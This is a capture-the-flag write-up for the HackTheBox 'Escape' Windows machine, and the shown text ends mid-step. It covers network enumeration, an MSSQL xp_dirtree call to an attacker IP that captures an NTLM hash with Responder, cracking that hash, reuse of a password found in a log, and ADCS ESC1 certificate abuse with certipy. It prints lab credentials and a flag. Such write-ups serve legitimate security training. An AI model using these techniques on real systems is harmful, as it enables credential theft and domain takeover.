# ch3ckm8_HTB_Escape

# Intro



[[windows]] [[NotAssumedBreach]] [[mssql]] [[certificates]] [[certvulntoESC1]]

Tags: #windows #NotAssumedBreach #mssql #certificates #certvulntoESC1

Tools used:

- rpcclient (RPC enumeration)
- smbclient (SMB enumeration)
- ldapsearch (LDAP enumeration)
- mssqlclient (MSSQL enumeration, impacket)
- Responder (capturing the NTLM hash)
- certipy (ADCS abuse)

---

# Reconnaissance

## Add target to /etc/hosts

```bash
sudo sh -c "echo '10.129.228.253 Escape.htb' >> /etc/hosts"
```

## Nmap scan

```bash
sudo nmap -sC -sV Escape.htb
```

```bash
Starting Nmap 7.94SVN ( <https://nmap.org> ) at 2025-08-17 09:18 CDT
Nmap scan report for Escape.htb (10.129.228.253)
Host is up (0.0074s latency).
Not shown: 988 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-08-17 22:18:28Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject:
| Subject Alternative Name: DNS:dc.sequel.htb, DNS:sequel.htb, DNS:sequel
| Not valid before: 2024-01-18T23:03:57
|_Not valid after:  2074-01-05T23:03:57
|_ssl-date: 2025-08-17T22:19:49+00:00; +8h00m01s from scanner time.
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-08-17T22:19:48+00:00; +8h00m00s from scanner time.
| ssl-cert: Subject:
| Subject Alternative Name: DNS:dc.sequel.htb, DNS:sequel.htb, DNS:sequel
| Not valid before: 2024-01-18T23:03:57
|_Not valid after:  2074-01-05T23:03:57
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-ntlm-info:
|   10.129.228.253:1433:
|     Target_Name: sequel
|     NetBIOS_Domain_Name: sequel
|     NetBIOS_Computer_Name: DC
|     DNS_Domain_Name: sequel.htb
|     DNS_Computer_Name: dc.sequel.htb
|     DNS_Tree_Name: sequel.htb
|_    Product_Version: 10.0.17763
| ms-sql-info:
|   10.129.228.253:1433:
|     Version:
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
|_ssl-date: 2025-08-17T22:19:49+00:00; +8h00m01s from scanner time.
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2025-08-17T22:11:38
|_Not valid after:  2055-08-17T22:11:38
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-08-17T22:19:49+00:00; +8h00m01s from scanner time.
| ssl-cert: Subject:
| Subject Alternative Name: DNS:dc.sequel.htb, DNS:sequel.htb, DNS:sequel
| Not valid before: 2024-01-18T23:03:57
|_Not valid after:  2074-01-05T23:03:57
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-08-17T22:19:48+00:00; +8h00m00s from scanner time.
| ssl-cert: Subject:
| Subject Alternative Name: DNS:dc.sequel.htb, DNS:sequel.htb, DNS:sequel
| Not valid before: 2024-01-18T23:03:57
|_Not valid after:  2074-01-05T23:03:57
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 8h00m00s, deviation: 0s, median: 7h59m59s
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required
| smb2-time:
|   date: 2025-08-17T22:19:11
|_  start_date: N/A

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 93.92 seconds
```

The host appears to be a DC, add this also on etc hosts: Subject Alternative Name: DNS: `dc.sequel.htb` and also change it to match to domain accordingly:

```bash
10.129.228.253 dc.sequel.htb sequel.htb
```

## RPC enumeration

### **Anonymous logon**

```bash
rpcclient -U "" -N sequel.htb
```

tried running some commands but got access denied:

```bash
└──╼ [★]$ rpcclient -U "" -N sequel\.htb
rpcclient $> enumdomusers
result was NT_STATUS_ACCESS_DENIED
rpcclient $> enumdomains
result was NT_STATUS_ACCESS_DENIED
rpcclient $> 
```

## SMB enumeration

### Anonymous logon

```bash
smbclient -N -L sequel.htb
```

```bash
Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
IPC$            IPC       Remote IPC
NETLOGON        Disk      Logon server share 
Public          Disk      
SYSVOL          Disk      Logon server share
```

hm i saw here the share `Public` which is not a default one, we could inspect it further:

```bash
smbclient //sequel.htb/Public
```

```bash
smb: \> ls
  .                                   D        0  Sat Nov 19 05:51:25 2022
  ..                                  D        0  Sat Nov 19 05:51:25 2022
  SQL Server Procedures.pdf           A    49551  Fri Nov 18 07:39:43 202
```

Interesting, lets download it:

```bash
smb: \> get SQL Server Procedures.pdf 
NT_STATUS_OBJECT_NAME_NOT_FOUND opening remote file \SQL
smb: \> get "SQL Server Procedures.pdf"
getting file \SQL Server Procedures.pdf of size 49551 as SQL Server Procedures.pdf (1512.2 KiloBytes/sec) (average 1512.2 KiloBytes/sec)
```

(here you must use double quotes to download this file, since the filename contains spaces)

Next, i viewed the pdf: `SQL Server Procedures.pdf`

1st page:



2nd page:



- For the `domain joined` machines, the SQL Management Studio link is

[https://learn.microsoft.com/en-us/sql/ssms/download-sql-server-management-studio-ssms?view=sql-server-ver16](https://learn.microsoft.com/en-us/sql/ssms/download-sql-server-management-studio-ssms?view=sql-server-ver16)

- For the `non domain joined` machines, the command inside the pdf is:

```bash
cmdkey /add:"<serverName>.sequel.htb" /user:"sequel\<userame>" /pass:<password>
```

- Also, Brandon’s mail here is: [`brandon.brown@sequel.htb`](mailto:brandon.brown@sequel.htb)
- Lastly, we are given creds:

```bash
PublicUser
GuestUserCantWrite1
```

So in the contents of the pdf file give out important information. The first hint we are given, is that it has to do with SQL, and specifically an SQL Server. 

Later on, the pdf informs us that machines out of the domain can connect in a different way, using cmdkey command instead of installing the SQL Management Studio.

Furthermoe, since we are give creds, we could check whether we can login somewhere with them first:

## Checking where we can login with the given creds

Lets now use my script to bulk check the services to which we can login with those creds: [ch3ckkm8/auto_netexec: Automating netexec to bulk check all available services, given the target and the creds to check](https://github.com/ch3ckkm8/auto_netexec)

```bash
./auto_netexec_bulk_creds_checker.sh sequel.htb 'PublicUser' 'GuestUserCantWrite1'
```

```bash
[*] Checking if winrm port 5985 is open on sequel.htb...
[+] Port 5985 open — checking winrm with netexec
WINRM       10.129.228.253  5985   DC               [*] Windows 10 / Server 2019 Build 17763 (name:DC) (domain:sequel.htb)
WINRM       10.129.228.253  5985   DC               [-] sequel.htb\PublicUser:GuestUserCantWrite1

[*] Checking if smb port 445 is open on sequel.htb...
[+] Port 445 open — checking smb with netexec
SMB         10.129.228.253  445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB         10.129.228.253  445    DC               [+] sequel.htb\PublicUser:GuestUserCantWrite1 

[*] Checking if ldap port 389 is open on sequel.htb...
[+] Port 389 open — checking ldap with netexec
SMB         10.129.228.253  445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:sequel.htb) (signing:True) (SMBv1:False)
LDAPS       10.129.228.253  636    DC               [-] Error in searchRequest -> operationsError: 000004DC: LdapErr: DSID-0C090A5C, comment: In order to perform this operation a successful bind must be completed on the connection., data 0, v4563
LDAPS       10.129.228.253  636    DC               [+] sequel.htb\PublicUser:GuestUserCantWrite1 

[*] Checking if rdp port 3389 is open on sequel.htb...
[-] Skipping rdp — port 3389 is closed

[*] Checking if wmi port 135 is open on sequel.htb...
[+] Port 135 open — checking wmi with netexec
RPC         10.129.228.253  135    DC               [*] Windows 10 / Server 2019 Build 17763 (name:DC) (domain:sequel.htb)
RPC         10.129.228.253  135    DC               [-] sequel.htb\PublicUser:GuestUserCantWrite1 (RPC_S_SEC_PKG_ERROR)

[*] Checking if nfs port 2049 is open on sequel.htb...
[-] Skipping nfs — port 2049 is closed

[*] Checking if ssh port 22 is open on sequel.htb...
[-] Skipping ssh — port 22 is closed

[*] Checking if vnc port 5900 is open on sequel.htb...
[-] Skipping vnc — port 5900 is closed

[*] Checking if ftp port 21 is open on sequel.htb...
[-] Skipping ftp — port 21 is closed

[*] Checking if mssql port 1433 is open on sequel.htb...
[+] Port 1433 open — checking mssql with netexec
[*] Testing MSSQL with domain/Windows auth...
MSSQL       10.129.228.253  1433   DC               [*] Windows 10 / Server 2019 Build 17763 (name:DC) (domain:sequel.htb)
MSSQL       10.129.228.253  1433   DC               [-] sequel.htb\PublicUser:GuestUserCantWrite1 (Login failed for user 'sequel\Guest'. Please try again with or without '--local-auth')
[*] Testing MSSQL with local SQL auth...
MSSQL       10.129.228.253  1433   DC               [*] Windows 10 / Server 2019 Build 17763 (name:DC) (domain:sequel.htb)
MSSQL       10.129.228.253  1433   DC               [+] DC\PublicUser:GuestUserCantWrite1
```

According to the output here, we can login towards `LDAP`,`SMB` and `MSSQL` services, lets enumerate them with those creds:

## LDAP enumeration as PublicUser

```bash
ldapsearch -LLL -x -H ldap://sequel.htb -s base namingcontexts 
```

```bash
dn:
namingcontexts: DC=sequel,DC=htb
namingcontexts: CN=Configuration,DC=sequel,DC=htb
namingcontexts: CN=Schema,CN=Configuration,DC=sequel,DC=htb
namingcontexts: DC=DomainDnsZones,DC=sequel,DC=htb
namingcontexts: DC=ForestDnsZones,DC=sequel,DC=htb
```

tried anonymous , not successful:

```bash
ldapsearch -LLL -x -H ldap://sequel.htb -b "DC=sequel,DC=htb"
```

## SMB enumeration as PublicUser

```bash
nxc smb sequel.htb  -u 'PublicUser' -p 'GuestUserCantWrite1 ' --shares
smbmap -H sequel.htb -d sequel.htb -u PublicUser-p GuestUserCantWrite1
```

All of these failed…. hm what now, we tried `LDAP` `SMB` and no luck.

Lets move on and to investigate `MSSQL` :

## MSSQL enumeration as PublicUser

```bash
mssqlclient.py sequel.htb/PublicUser:GuestUserCantWrite1@dc.sequel.htb
```

login was successful! , lets move on now and try to inspect the databases inside:

```bash
SQL (PublicUser  guest@master)> select name from master..sysdatabases;

name     
------   
master   
tempdb   
model    
msdb  
```

After some research, i found that these 4 databases are default databases on MSSQL…. so navigating their schemas and values wont provide anything usefull.

---

# Foothold

But what to do next??? Can we do sth more in MSSQL besides viewing database contents?

i did some research, tried multiple things from here:
[https://hacktricks.xsx.tw/network-services-pentesting/pentesting-mssql-microsoft-sql-server](https://hacktricks.xsx.tw/network-services-pentesting/pentesting-mssql-microsoft-sql-server)

but the only one that appeared to work was the `NetNTLM` part:

remotely, on the MSSQL shell run this with your attacker ip:

```bash
EXEC xp_dirtree '\\10.10.14.96\share', 1, 1
```

and on your host, start responder:

```bash
sudo python3 Responder.py -I tun0
```

aand we got the ntlm hash of `sql_svc` user!

```bash
[+] Listening for events...

[SMB] NTLMv2-SSP Client   : 10.129.228.253
[SMB] NTLMv2-SSP Username : sequel\sql_svc
[SMB] NTLMv2-SSP Hash     : sql_svc::sequel:031325f9a83e80fb:D6EE0D2E3D143D7A98B504141951CB4B:01010000000000008074FBAFBD0FDC01FAB7D3718260D4BE0000000002000800470043004B00550001001E00570049004E002D004F00500045003900370052003800420044004E00350004003400570049004E002D004F00500045003900370052003800420044004E0035002E00470043004B0055002E004C004F00430041004C0003001400470043004B0055002E004C004F00430041004C0005001400470043004B0055002E004C004F00430041004C00070008008074FBAFBD0FDC0106000400020000000800300030000000000000000000000000300000DB431A3C79C771BEAD50BC0D8459CAFF43AA7C9AE900254574DC2382A288D8060A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E00390036000000000000000000

```

Now that we have the hash, lets attempt to crack it:

```bash
hashcat sql_svc_netntmlv2 /usr/share/wordlists/rockyou.txt
```

the crack was successful, and the password is `REGGIE1234ronnie`, we can now try to login via win-rm:

```bash
evil-winrm -i sequel.htb -u sql_svc -p REGGIE1234ronnie
```

and we are in:



whats next? i checked the desktop and there was no flag there. 

## Directories and Files enumeration as sql_svc

We could do some enumeration here, such as inspecting the Users:

```bash
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         2/7/2023   8:58 AM                Administrator
d-r---        7/20/2021  12:23 PM                Public
d-----         2/1/2023   6:37 PM                Ryan.Cooper
d-----         2/7/2023   8:10 AM                sql_svc
```

tried navigating to `Public` and `Ryan.Cooper` but access was denied, lets move backwards towards the C drive to get a better picture of the overall file structure:

```bash
Directory: C:\

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         2/1/2023   8:15 PM                PerfLogs
d-r---         2/6/2023  12:08 PM                Program Files
d-----       11/19/2022   3:51 AM                Program Files (x86)
d-----       11/19/2022   3:51 AM                Public
d-----         2/1/2023   1:02 PM                SQLServer
d-r---         2/1/2023   1:55 PM                Users
d-----         2/6/2023   7:21 AM                Window
```

Here are goal is to search for non default folders first. In this case, `Public` and `SQLServer` to me does not seem like default windows folders, so lets search those 2 first:

`Public` folder:

```bash
Directory: C:\Public

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       11/18/2022   5:39 AM          49551 SQL Server Procedures.pdf
```

Contains the pdf we found via smb earlier on the recon stage

`SQLServer` folder:

```bash
Directory: C:\SQLServer

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         2/7/2023   8:06 AM                Logs
d-----       11/18/2022   1:37 PM                SQLEXPR_2019
-a----       11/18/2022   1:35 PM        6379936 sqlexpress.exe
-a----       11/18/2022   1:36 PM      268090448 SQLEXPR_x64_ENU.exe
```

hm ok now we found some files, since inspecting/debugging the `.exe` files is a more difficult approach, i will try searching the `Logs` and `SQLEXPR_2019` folders first:

`Logs`:

```bash
Directory: C:\SQLServer\Logs

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         2/7/2023   8:06 AM          27608 ERRORLOG.BAK
```

 contains an `.BAK` file, which is an extension used to signify a backup copy of a file, also lets download it and inspect it offline:

```bash
*Evil-WinRM* PS C:\SQLServer\Logs> download ERRORLOG.BAK
                                        
Info: Downloading C:\SQLServer\Logs\ERRORLOG.BAK to ERRORLOG.BAK
                                        
Info: Download successful!
```

`ERRORLOG.BAK`:

It contains large number of logs, but the most interesting ones were:

```bash
..........
2022-11-18 13:43:07.44 Logon       Logon failed for user 'sequel.htb\Ryan.Cooper'. Reason: Password did not match that for the login provided. [CLIENT: 127.0.0.1]
2022-11-18 13:43:07.48 Logon       Error: 18456, Severity: 14, State: 8.
2022-11-18 13:43:07.48 Logon       Logon failed for user 'NuclearMosquito3'. Reason: Password did not match that for the login provided. [CLIENT: 127.0.0.1]
```

As we can see here, it contains SQL error log, the logs above show that user `Ryan.Cooper` failed to login once. After ryan’s failed login, another user seems to fail `NuclearMosquito3` but by inspecting earlier the valid user i did not see that user anywhere! What if this username was a mistype by ryan and provided his password instead of his username? Lets find out:

## Checking where we can login with ryan’s creds

```bash
./auto_netexec_bulk_creds_checker.sh sequel.htb 'Ryan.Cooper' 'NuclearMosquito3'
```

```bash
[*] Checking if winrm port 5985 is open on sequel.htb...
[+] Port 5985 open — checking winrm with netexec
WINRM       10.129.228.253  5985   DC               [*] Windows 10 / Server 2019 Build 17763 (name:DC) (domain:sequel.htb)
WINRM       10.129.228.253  5985   DC               [+] sequel.htb\Ryan.Cooper:NuclearMosquito3 (Pwn3d!)

[*] Checking if smb port 445 is open on sequel.htb...
[+] Port 445 open — checking smb with netexec
SMB         10.129.228.253  445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB         10.129.228.253  445    DC               [+] sequel.htb\Ryan.Cooper:NuclearMosquito3 

[*] Checking if ldap port 389 is open on sequel.htb...
[+] Port 389 open — checking ldap with netexec
SMB         10.129.228.253  445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:sequel.htb) (signing:True) (SMBv1:False)
LDAPS       10.129.228.253  636    DC               [+] sequel.htb\Ryan.Cooper:NuclearMosquito3 

[*] Checking if rdp port 3389 is open on sequel.htb...
[-] Skipping rdp — port 3389 is closed

[*] Checking if wmi port 135 is open on sequel.htb...
[-] Skipping wmi — port 135 is closed

[*] Checking if nfs port 2049 is open on sequel.htb...
[-] Skipping nfs — port 2049 is closed

[*] Checking if ssh port 22 is open on sequel.htb...
[-] Skipping ssh — port 22 is closed

[*] Checking if vnc port 5900 is open on sequel.htb...
[-] Skipping vnc — port 5900 is closed

[*] Checking if ftp port 21 is open on sequel.htb...
[-] Skipping ftp — port 21 is closed

[*] Checking if mssql port 1433 is open on sequel.htb...
[+] Port 1433 open — checking mssql with netexec
MSSQL       10.129.228.253  1433   DC               [*] Windows 10 / Server 2019 Build 17763 (name:DC) (domain:sequel.htb)
MSSQL       10.129.228.253  1433   DC               [+] sequel.htb\Ryan.Cooper:NuclearMosquito3
```

great! it appears ryan can login to `winrm` with those creds

```bash
evil-winrm -i sequel.htb -u ryan.cooper -p NuclearMosquito3
```

grabbed user flag! `c139f30e7a999df9e9d0cb0887b679eb`

proof:



---

# Privesc

Folder structure:

```bash
*Evil-WinRM* PS C:\Users\Ryan.Cooper> tree /f /a
Folder PATH listing
Volume serial number is EB33-4140
C:.
+---3D Objects
+---Contacts
+---Desktop
|       user.txt
|
+---Documents
+---Downloads
+---Favorites
|   |   Bing.url
|   |
|   \---Links
+---Links
|       Desktop.lnk
|       Downloads.lnk
|
+---Music
+---Pictures
+---Saved Games
+---Searches
\---Videos
```

## Find domain groups:

```bash
net group /domain
```

```bash
*Evil-WinRM* PS C:\Users\Ryan.Cooper> net group /domain

Group Accounts for \\

-------------------------------------------------------------------------------
*Cloneable Domain Controllers
*DnsUpdateProxy
*Domain Admins
*Domain Computers
*Domain Controllers
*Domain Guests
*Domain Users
*Enterprise Admins
*Enterprise Key Admins
*Enterprise Read-only Domain Controllers
*Group Policy Creator Owners
*Key Admins
*Protected Users
*Read-only Domain Controllers
*Schema Admins
```

## Current user’s Group membership

```bash
whoami /groups
```

```bash
GROUP INFORMATION
-----------------

Group Name                                  Type             SID          Attributes
=========================================== ================ ============ ==================================================
Everyone                                    Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access     Alias            S-1-5-32-574 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
```

the one group i found interesting here was `BUILTIN\Certificate Service DCOM Access`

## Current user’s privileges:

```bash
whoami /priv
```

```bash
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

Lets try running bloodhound first to get a better picture of the AD:

## Bloodhound as ryan

```bash
bloodhound-python -u 'ryan.cooper' -p 'NuclearMosquito3' -d sequel.htb -ns 10.129.228.253 -c All --zip

```

it was successful, lets dive in

`Ryan.Cooper` has no `OUTBOUND OBJECT CONTROL`



and his `Group Membership` also provides nothing interesting



Since ryan has nothing further valuable here, we could inspect other objects:

For example, we can view the `Domain Users`:



By greater inspection to all of them, found no obvious attack paths….

Okay, lets take a break and think again, what do we already know about our user?

For example, our user is member of `CERTIFICATE SERVICE DCOM ACCESS@SEQUEL.HTB` group, what does that mean? 

Well just by reading the name of this group it is obvious that certificates are involved, and since certificates are involved, this means that `Active Directory Certificate Service (AD CS)` exists.

So why not try `enumerate AD CS`? lets try:

## Enumerate ADCS

```bash
certipy find -u "Ryan.Cooper@sequel.htb" -p 'NuclearMosquito3' -dc-ip 10.129.228.253 -vulnerable -stdout
```

from the output, scroll down on the Vulnerabilities section:

```bash
[!] Vulnerabilities
      ESC1      : 'SEQUEL.HTB\\Domain Users' can enroll, enrollee supplies subject and template allows client authentication
```

nice!, it seems its vulnerable to `ESC1` ! this should be our attack path

## Abusing ESC1

There are multiple ways to do this, one is described here (via certify and rubeus) [https://bloodhound.specterops.io/resources/edges/adcs-esc1](https://bloodhound.specterops.io/resources/edges/adcs-esc1)

I preferred using certipy since i was more familiar with it:

### 1. Request pfx certificate

first lets sync with the DC

```bash
sudo ntpdate sequel.htb
```

then use certipy

```bash
certipy req -u ryan.cooper -p NuclearMosquito3 -target sequel.htb -upn administrator@sequel.htb -ca sequel-dc-ca -template UserAuthentication
```

```bash
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 14
[*] Got certificate with UPN 'administrator@sequel.htb'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```

this saved the `administrator.pfx` 

### 2. Get TGT hash from the certificate

```bash
certipy auth -pfx administrator.pfx
```

```bash
Certipy v4.8.2 - by Oliver Lyak (ly4k)

